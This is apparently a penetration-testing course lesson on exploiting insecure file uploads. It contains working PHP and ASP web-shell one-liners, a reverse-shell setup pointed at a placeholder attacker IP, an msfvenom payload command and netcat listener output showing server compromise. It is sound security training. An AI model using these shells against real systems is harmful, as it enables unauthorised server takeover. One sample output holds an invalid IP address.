 The final step in exploiting this web application is to upload the malicious script in the same language as the web application, like a web shell or a reverse shell script. Once we upload our malicious script and visit its link, we should be able to interact with it to take control over the back-end server.

---

## Web Shells

We can find many excellent web shells online that provide useful features, like directory traversal or file transfer. One good option for `PHP` is [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell. Furthermore, [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) provides a plethora of web shells for different frameworks and languages, which can be found in the `/opt/useful/SecLists/Web-Shells` directory in `PwnBox`.

We can download any of these web shells for the language of our web application (`PHP` in our case), then upload it through the vulnerable upload feature, and visit the uploaded file to interact with the web shell. For example, let's try to upload `phpbash.php` from [phpbash](https://github.com/Arrexel/phpbash) to our web application, and then navigate to its link by clicking on the Download button:

   

![](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_bash.jpg)

As we can see, this web shell provides a terminal-like experience, which makes it very easy to enumerate the back-end server for further exploitation. Try a few other web shells from SecLists, and see which ones best meet your needs.

---

## Writing Custom Web Shell

Although using web shells from online resources can provide a great experience, we should also know how to write a simple web shell manually. This is because we may not have access to online tools during some penetration tests, so we need to be able to create one when needed.

For example, with `PHP` web applications, we can use the `system()` function that executes system commands and prints their output, and pass it the `cmd` parameter with `$_REQUEST['cmd']`, as follows:

Code: php

```php
<?php system($_REQUEST['cmd']); ?>
```

If we write the above script to `shell.php` and upload it to our web application, we can execute system commands with the `?cmd=` GET parameter (e.g. `?cmd=id`), as follows:

   

![](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_manual_shell.jpg)

This may not be as easy to use as other web shells we can find online, but it still provides an interactive method for sending commands and retrieving their output. It could be the only available option during some web penetration tests.

**Tip:** If we are using this custom web shell in a browser, it may be best to use source-view by clicking `[CTRL+U]`, as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.

Web shells are not exclusive to `PHP`, and the same applies to other web frameworks, with the only difference being the functions used to execute system commands. For `.NET` web applications, we can pass the `cmd` parameter with `request('cmd')` to the `eval()` function, and it should also execute the command specified in `?cmd=` and print its output, as follows:

Code: asp

```asp
<% eval request('cmd') %>
```

We can find various other web shells online, many of which can be easily memorized for web penetration testing purposes. It must be noted that `in certain cases, web shells may not work`. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g. `system()`), or due to a Web Application Firewall, among other reasons. In these cases, we may need to use advanced techniques to bypass these security mitigations, but this is outside the scope of this module.

---

## Reverse Shell

Finally, let's see how we can receive reverse shells through the vulnerable upload functionality. To do so, we should start by downloading a reverse shell script in the language of the web application. One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

Let's download one of the above reverse shell scripts, like the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell), and then open it in a text editor to input our `IP` and listening `PORT`, which the script will connect to. For the `pentestmonkey` script, we can modify lines `49` and `50` and input our machine's IP/PORT:

Code: php

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

Next, we can start a `netcat` listener on our machine (with the above port), upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection:

  Upload Exploitation

```shell-session
anasec@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we successfully received a connection back from the back-end server that hosts the vulnerable web application, which allows us to interact with it for further exploitation. The same concept can be used for other web frameworks and languages, with the only difference being the reverse shell script we use.

---

## Generating Custom Reverse Shell Scripts

Just like web shells, we can also create our own reverse shell scripts. While it is possible to use the same previous `system` function and pass it a reverse shell command, this may not always be very reliable, as the command may fail for many reasons, just like any other reverse shell command.

This is why it is always better to use core web framework functions to connect to our machine. However, this may not be as easy to memorize as a web shell script. Luckily, tools like `msfvenom` can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows for `PHP`:

  Upload Exploitation

```shell-session
anasec@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

Once our `reverse.php` script is generated, we can once again start a `netcat` listener on the port we specified above, upload the `reverse.php` script and visit its link, and we should receive a reverse shell as well:

  Upload Exploitation

```shell-session
anasec@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Similarly, we can generate reverse shell scripts for several languages. We can use many reverse shell payloads with the `-p` flag and specify the output language with the `-f` flag.

While reverse shells are always preferred over web shells, as they provide the most interactive method for controlling the compromised server, they may not always work, and we may have to rely on web shells instead. This can be for several reasons, like having a firewall on the back-end network that prevents outgoing connections or if the web server disables the necessary functions to initiate a connection back to us.


